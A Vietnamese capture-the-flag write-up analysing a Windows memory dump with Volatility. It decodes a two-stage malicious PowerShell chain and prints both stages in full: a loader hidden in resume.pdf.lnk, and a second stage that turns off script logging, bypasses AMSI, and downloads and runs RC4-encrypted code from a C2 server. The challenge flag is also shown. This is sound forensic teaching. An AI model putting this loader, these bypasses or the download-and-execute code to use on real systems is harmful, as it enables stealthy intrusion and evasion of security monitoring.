



# Challenge Reminiscent

## 1. Đầu vào challenge

Challenge cung cấp **4 file**.

Từ các file đầu vào, hướng hợp lý nhất là đi từ file memory dump trước để xác định hệ điều hành và process đang chạy lúc chụp để phân tích.



---

## 2. Xác định thông tin hệ thống từ memory dump

Thử dùng Volatility để kiểm tra thông tin hệ điều hành:

```bash
vol -f flounder-pc-memdump.elf windows.info
```



Kết quả cho thấy đây là máy:

- **Windows 7 SP1**
- **64-bit**

Sau biết hệ thống, bước tiếp theo là kiểm tra cây process tại thời điểm RAM được chụp.

---

## 3. Kiểm tra process tree

Tiếp tục dùng:

```bash
vol -f flounder-pc-memdump.elf windows.pstree
```

để xem các process đang hoạt động vào thời điểm dump được tạo.



### Nhận định

Trong cây process có thể thấy rõ **2 đoạn Base64** được dùng trong process.

Điểm đáng chú ý là:

- một chuỗi còn được chạy với `-win hidden`
- dấu hiệu rất thường gặp ở PowerShell độc hại

Từ đó, bước tiếp theo là decode từng chuỗi Base64 để xem payload thật.

---

## 4. Decode chuỗi Base64 đầu tiên

Sau khi decode chuỗi Base64 đầu tiên, thu được script PowerShell sau:

```powershell
$stP, $siP = 3230, 9676;
$f = 'resume.pdf.lnk';

if (-not(Test-Path $f)) {
    $x = Get-ChildItem -Path $env:temp -Filter $f -Recurse;
    [IO.Directory]::SetCurrentDirectory($x.DirectoryName);
}

$lnk = New-Object IO.FileStream $f, 'Open', 'Read', 'ReadWrite';
$b64 = New-Object byte[]($siP);

$lnk.Seek($stP, [IO.SeekOrigin]::Begin);
$lnk.Read($b64, 0, $siP);

$b64 = [Convert]::FromBase64CharArray($b64, 0, $b64.Length);
$scB = [Text.Encoding]::Unicode.GetString($b64);

iex $scB;
```

### Phân tích script

#### Đoạn đầu

```powershell
$stP, $siP = 3230, 9676;
$f = 'resume.pdf.lnk';
```

Ý nghĩa:

- trong file `.lnk` có một đoạn dữ liệu nhúng
- dữ liệu đó bắt đầu từ **byte 3230**
- và có độ dài **9676 byte**

---

#### Mở file `.lnk` và tạo buffer

```powershell
$lnk = New-Object IO.FileStream $f, 'Open', 'Read', 'ReadWrite';
$b64 = New-Object byte[]($siP);
```

Ý nghĩa:

- mở file `resume.pdf.lnk`
- tạo một mảng byte có độ dài đúng bằng `9676`

Mảng này sẽ dùng để chứa phần dữ liệu bị nhúng trong file `.lnk`.

---

#### Nhảy tới offset và đọc dữ liệu

```powershell
$lnk.Seek($stP, [IO.SeekOrigin]::Begin);
$lnk.Read($b64, 0, $siP);
```

Ý nghĩa:

- nhảy tới offset **3230**
- đọc đúng **9676 byte**
- đưa toàn bộ vào mảng `$b64`

---

#### Giải mã dữ liệu vừa đọc

```powershell
$b64 = [Convert]::FromBase64CharArray($b64, 0, $b64.Length);
$scB = [Text.Encoding]::Unicode.GetString($b64);
```

Ý nghĩa:

- coi đoạn vừa đọc là một chuỗi **Base64**
- decode Base64 để lấy dữ liệu thật
- sau đó coi dữ liệu đó là chuỗi **UTF-16LE**
- lưu kết quả vào biến `$scB`

Cho thấy phần dữ liệu giấu trong file `.lnk` là **một PowerShell script khác**.

---

#### Thực thi script lớp tiếp theo

```powershell
iex $scB;
```

Ở đây:

- `iex` là `Invoke-Expression`
- PowerShell sẽ coi nội dung trong `$scB` như một lệnh / script rồi thực thi tiếp

---

## 5. Decode chuỗi Base64 thứ hai

Tiếp tục decode chuỗi Base64 thứ hai thì thu được script sau:

```powershell
$GroUPPOLiCYSEttINGs = [rEF].ASseMBLY.GEtTypE('System.Management.Automation.Utils')."GEtFIE`ld"('cachedGroupPolicySettings', 'N'+'onPublic,Static').GETValUe($nulL);
$GRouPPOlICySeTTiNgS['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging'] = 0;
$GRouPPOLICYSEtTingS['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging'] = 0;

[Ref].AsSemBly.GeTTyPE('System.Management.Automation.AmsiUtils') | ?{$_} | %{$_.GEtFieLd('amsiInitFailed','NonPublic,Static').SETVaLuE($NulL,$True)};

[SysTem.NeT.SErVIcePOIntMAnAgER]::ExpEct100COnTinuE=0;
$WC=NEW-OBjEcT SysTEM.NEt.WeBClIEnt;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$wC.HeaDerS.Add('User-Agent',$u);
$Wc.PRoXy=[SysTeM.NET.WebRequEst]::DefaULtWeBPROXY;
$wC.PRoXY.CREDeNtIaLS = [SYSTeM.NET.CreDEnTiaLCaChe]::DeFauLTNEtwOrkCredentiAlS;

$K=[SYStEM.Text.ENCODIng]::ASCII.GEtBytEs('E1gMGdfT@eoN>x9{]2F7+bsOn4/SiQrw');
$R={
    $D,$K=$ArgS;
    $S=0..255;
    0..255 | %{
        $J=($J+$S[$_]+$K[$_%$K.CounT])%256;
        $S[$_],$S[$J]=$S[$J],$S[$_]
    };
    $D | %{
        $I=($I+1)%256;
        $H=($H+$S[$I])%256;
        $S[$I],$S[$H]=$S[$H],$S[$I];
        $_-bxoR$S[($S[$I]+$S[$H])%256]
    }
};

$wc.HEAdErs.ADD("Cookie","session=MCahuQVfz0yM6VBe8fzV9t9jomo=");
$ser='http://10.10.99.55:80';
$t='/login/process.php';
$flag='HTB{$_j0G_y0uR_M3m0rY_$}';

$DatA=$WC.DoWNLoaDDATA($SeR+$t);
$iv=$daTA[0..3];
$DAta=$DaTa[4..$DAta.LenGTH];
-JOIN[CHAr[]](& $R $datA ($IV+$K)) | IEX
```

---

## 6. Phân tích script lớp hai

## 6.1. Tắt Script Block Logging

Đoạn đầu tiên là:

```powershell
$GRouPPOlICySeTTiNgS['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
$GRouPPOLICYSEtTingS['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
```

Ý nghĩa:

- tắt **Script Block Logging**
- giảm khả năng PowerShell ghi lại nội dung script đã chạy

---

## 6.2. Bypass AMSI

Tiếp theo là đoạn:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils') | ?{$_} | %{
    $_.GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$True)
};
```

Ý nghĩa:

- ép biến nội bộ `amsiInitFailed = True`
- khiến PowerShell coi như **AMSI đã lỗi**
- từ đó bỏ qua bước quét nội dung script

### Kiến thức ngoài lề

**AMSI** (*Antimalware Scan Interface*) là cầu nối giữa ứng dụng và phần mềm diệt mã độc của Windows.

- Khi một ứng dụng như PowerShell sắp chạy script, nó có thể đưa nội dung đó cho AMSI kiểm tra trước.  
- Sau đó AMSI sẽ chuyển tiếp nội dung tới Defender hoặc antivirus khác để quét xem có dấu hiệu độc hại hay không.

Vì vậy, việc ép `amsiInitFailed = True` là một kỹ thuật bypass để tránh bị quét.

---

## 6.3. Chuẩn bị WebClient và header

Phần tiếp theo tạo đối tượng web:

```powershell
[System.Net.ServicePointManager]::Expect100Continue=0;
$WC=New-Object System.Net.WebClient;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$wC.Headers.Add('User-Agent',$u);
$Wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;
$wC.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
```

Ý nghĩa:

- tạo `WebClient` để tải dữ liệu từ mạng
- gắn `User-Agent` giả như trình duyệt thật
- dùng proxy mặc định của hệ thống
- dùng luôn credentials mạng mặc định

Giúp traffic của mã độc nhìn giống hoạt động web bình thường, đồng thời dễ đi qua môi trường mạng doanh nghiệp có proxy.

---

## 6.4. Hàm RC4 tự cài đặt

Script tiếp tục khai báo key:

```powershell
$K=[System.Text.Encoding]::ASCII.GetBytes('E1gMGdfT@eoN>x9{]2F7+bsOn4/SiQrw');
```

và hàm:

```powershell
$R={
    $D,$K=$Args;
    $S=0..255;
    0..255 | %{
        $J=($J+$S[$_]+$K[$_%$K.Count])%256;
        $S[$_],$S[$J]=$S[$J],$S[$_]
    };
    $D | %{
        $I=($I+1)%256;
        $H=($H+$S[$I])%256;
        $S[$I],$S[$H]=$S[$H],$S[$I];
        $_-bxor$S[($S[$I]+$S[$H])%256]
    }
};
```

### Kiến thức ngoài lề

**RC4** là một thuật toán mã hóa dòng (*stream cipher*).

Flow:

- nhận một **key**
- từ key đó sinh ra một chuỗi byte giả ngẫu nhiên
- lấy dữ liệu gốc XOR với chuỗi byte đó
- từ đó tạo ra dữ liệu mã hóa hoặc giải mã

---

## 6.5. Kết nối tới C2

Script tiếp tục cấu hình:

```powershell
$wc.Headers.Add("Cookie","session=MCahuQVfz0yM6VBe8fzV9t9jomo=");
$ser='http://10.10.99.55:80';
$t='/login/process.php';
$flag='HTB{$_j0G_y0uR_M3m0rY_$}';
```

- C2 server:

```text
http://10.10.99.55:80
```

- endpoint:

```text
/login/process.php
```

- đồng thời script còn chứa thẳng flag:

```text
HTB{$_j0G_y0uR_M3m0rY_$}
```

---

## 6.6. Tải payload, lấy IV rồi giải mã

Phần cuối của script là:

```powershell
$DatA=$WC.DownloadData($SeR+$t);
$iv=$daTA[0..3];
$DAta=$DaTa[4..$DAta.Length];
-JOIN[CHAr[]](& $R $datA ($IV+$K)) | IEX
```

### Ý nghĩa

Flow:

1. tải dữ liệu từ C2
2. lấy **4 byte đầu** làm `IV`
3. phần còn lại là dữ liệu mã hóa
4. ghép `IV + K` để làm key cho RC4
5. giải mã payload
6. chuyển kết quả thành chuỗi
7. thực thi ngay bằng `IEX`

---

## 7. Flag

```text
HTB{$_j0G_y0uR_M3m0rY_$}
```

---

## 8. Tóm tắt flow phân tích

```text
flounder-pc-memdump.elf
   |
   v
dùng windows.info
   |
   v
xác định Windows 7 SP1 x64
   |
   v
dùng windows.pstree
   |
   v
phát hiện process có 2 chuỗi Base64 đáng ngờ
   |
   v
decode chuỗi Base64 đầu tiên
   |
   v
loader đọc dữ liệu nhúng trong resume.pdf.lnk
   |
   v
Base64 decode + Unicode decode
   |
   v
IEX để chạy script lớp tiếp theo
   |
   v
decode chuỗi Base64 thứ hai
   |
   v
tắt Script Block Logging
   |
   v
bypass AMSI
   |
   v
tạo WebClient + giả User-Agent + dùng proxy mặc định
   |
   v
khai báo hàm RC4
   |
   v
tải dữ liệu từ C2: http://10.10.99.55:80/login/process.php
   |
   v
lấy IV + giải mã RC4
   |
   v
IEX payload trong memory
   |
   v
thu được flag
```

---
